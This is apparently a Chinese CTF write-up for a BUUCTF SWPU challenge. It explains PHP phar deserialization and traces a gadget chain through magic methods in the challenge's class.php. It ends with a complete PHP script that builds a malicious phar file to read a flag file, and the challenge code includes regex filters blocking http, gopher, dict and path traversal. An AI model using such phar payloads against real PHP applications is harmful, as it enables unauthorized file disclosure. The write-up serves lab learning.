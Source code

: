 # buu1
#在此记录一个phar反序列化的题，是buu的swpu的题
利用条件：
-phar文件能够上传到服务器
 
-要有可用的魔术方法作为“跳板”
 
-文件操作函数的参数可控，且：/ \ 等特殊字符没有被过滤
 
有序列化数据必然会有反序列化操作，php一大部分的文件系统函数在通过phar://伪协议解析phar文件时，都会将meta-data进行反序列化，受影响的函数如下

进去题目之后主要就是一顿包含然后找到源码
最后能看到base.php中的/flag的提示
然后回到class.php中，在这里面进行反序列化，首先找到一个入口一个出口，先快速的找能利用的函数，可以控制参数的地方，很明显看到一个file_get_contents,那么如何利用这个函数呢？
找链子，想要调用这个函数就观察里面的参数，一级级往上找就行，最后能到__get这个魔术方法，想要调用这个方法的话，需要外部访问一个Test类没有或不可访问的属性，我们注意到前面Show类的__tostring方法，想要调用这个方法又要将一个类当做字符串来调用，能看到最上面有一个destruct函数，只有把一个类附上去，然后echo出来就可以调用了，链子找完了之后就可以进行具体的exp构造了，这里利用phar反序列化，首先说下大致流程，先还是序列化，然后将恶意代码保存到phar文件中，最后再phar协议来解析他，文件包含，拿到权限。
class.php
##########################################################################
class Show
{
    public $source;
    public $str;
    public function __construct($file)
    {
        $this->source = $file;   //$this->source = phar://phar.jpg
        echo $this->source;
    }
    public function __toString()
    {
        $content = $this->str['str']->source;
        return $content;
    }
    public function __set($key,$value)
    {
        $this->$key = $value;
    }
    public function _show()
    {
        if(preg_match('/http|https|file:|gopher|dict|\.\.|f1ag/i',$this->source)) {
            die('hacker!');
        } else {
            highlight_file($this->source);
        }
 
    }
    public function __wakeup()
    {
        if(preg_match("/http|https|file:|gopher|dict|\.\./i", $this->source)) {
            echo "hacker~";
            $this->source = "index.php";
        }
    }
}
#######################################################

exp：
#######################################################
?php
class C1e4r
{
    public $test;
    public $str;
}
 
class Show
{
    public $source;
    public $str;
}
class Test
{
    public $file;
    public $params;
 
}
$a= new C1e4r();
$b= new Show();
$c= new Test();
$c->params['source'] = "/var/www/html/f1ag.php";
$a->str = $b;
$b->str['str'] = $c;
$phar = new Phar("exp.phar"); //生成phar文件
$phar->startBuffering();
$phar->setStub('<?php __HALT_COMPILER(); ? >');
$phar->setMetadata($a); //触发头是C1e4r类
$phar->addFromString("exp.txt", "test"); //生成签名
$phar->stopBuffering();
?>
###################################################################
